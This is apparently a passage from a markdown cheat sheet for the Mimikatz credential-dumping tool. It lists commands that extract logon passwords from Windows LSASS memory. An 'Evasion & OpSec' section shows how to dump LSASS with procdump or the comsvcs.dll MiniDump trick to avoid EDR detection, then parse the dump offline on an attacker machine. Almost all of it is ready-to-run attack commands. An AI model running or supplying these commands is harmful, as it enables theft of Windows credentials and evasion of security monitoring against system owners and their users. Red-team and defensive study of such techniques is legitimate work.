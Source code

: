 
## Advanced Command Flags & Options

### Global Options
```powershell
# Execute commands from file
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

# Log output to file
mimikatz # log mimikatz_output.txt

# Coffee mode (just for fun - ASCII art)
mimikatz # coffee

# Version information
mimikatz # version
```

### sekurlsa Module Options
```powershell
# Target specific LSASS process (if multiple instances)
mimikatz # sekurlsa::logonpasswords /pid:1234

# Dump from memory dump file (offline analysis)
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords
```

---

## Evasion & OpSec Techniques

### 1. Dumping LSASS Offline
**Why:** Avoids runtime detection by EDR monitoring LSASS access.

```powershell
# On target (less suspicious methods):

# Method 1: Using Task Manager (GUI - right-click lsass.exe, Create dump file)

# Method 2: Using ProcDump (Microsoft signed binary)
procdump.exe -accepteula -ma lsass.exe lsass.dmp

# Method 3: Using comsvcs.dll (native Windows DLL)
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump <LSASS_PID> lsass.dmp full

# Method 4: Using duplicating LSASS handle (more evasive)
# Use custom tooling like SafetyKatz or SharpDump

# Then parse offline on attacker machine:
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords
```
